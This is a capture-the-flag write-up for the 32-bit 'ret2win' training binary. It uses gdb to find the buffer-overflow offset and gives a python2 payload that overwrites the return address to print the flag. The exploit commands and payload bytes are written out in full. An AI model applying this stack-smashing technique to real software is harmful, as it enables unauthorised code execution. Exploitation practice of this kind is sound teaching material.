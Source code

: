 ### ret2win x86
Run the binary will see following message.

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

It also tells us that there is a function named ret2win and will cat the flag.txt. Therefore,  we only need to overwrite the return address to the address of the syscall in ret2win function.
Use gdb to gather information.
```
gdb ./ret2win32
```
Check the security of ret2win32.
```
gdb$ checksec

```
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
No canary, no pie.
List all functions.
```
gdb$ info functions
```
```
...
0x08048546  main
0x080485ad  pwnme
0x0804862c  ret2win
...
```
There is indeed a function called ret2win.

Disassembly ret2win to obtain the return address.
```
gdb$ disas ret2win 
```
```
...
0x08048645 <+25>:    push   0x8048813
0x0804864a <+30>:    call   0x80483e0 <system@plt>
...
```
The address of the syscall is 0x08048645.

Overflow length will be 32 bytes(buffer) + 4 bytes (RBP) = 36 bytes.

Therefore, the overflow strings will be:
```
A'*36+'\x45\x86\x04\x08'
```
Run the program with overflow strings:
```
python2 -c "print 'A'*36+'\x45\x86\x04\x08'" | ./ret2win32
```
It will get wrong answer, so we need to find correct overflow length.

Disassambly pwnme function.
```
gdb$ pwnme
```
```
...
0x08048611 <+100>:   call   0x80483b0 <read@plt>
0x08048616 <+105>:   add    esp,0x10
0x08048619 <+108>:   sub    esp,0xc
0x0804861c <+111>:   push   0x80487eb
0x08048621 <+116>:   call   0x80483d0 <puts@plt>
0x08048626 <+121>:   add    esp,0x10
0x08048629 <+124>:   nop
0x0804862a <+125>:   leave
0x0804862b <+126>:   ret

```
Set the breakpoints right after read call and return.
```
gdb$ b * 0x08048616
gdb$ b * 0x0804862b
```
Run the program.
```
gdb$ r
```
Input some characters, such as aaaaaaaaa.
```
>aaaaaaaaaa
```
Process will pause at breakpoint 1, and we can see the buffer's starting address in stack.
```
...
0008| 0xffffd4d8 --> 0x38 ('8')
0012| 0xffffd4dc --> 0x4
0016| 0xffffd4e0 ('a' <repeats 17 times>, "\n")
...
```
We run the process continuely, and we will see the return address in stack.
```
gdb$ c
```
```
0000| 0xffffd50c --> 0x8048590 (<main+74>:      sub    esp,0xc)
...
```
Now, we know the overflow length is 0xffffd50c - 0xffffd4e0 = 0x2c = 44.

Therefore, the overflow strings will be:
```
A'*44+'\x45\x86\x04\x08'
```
Run the program with overflow strings:
```
python2 -c "print 'A'*44+'\x45\x86\x04\x08'" | ./ret2win32
```
It will show the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
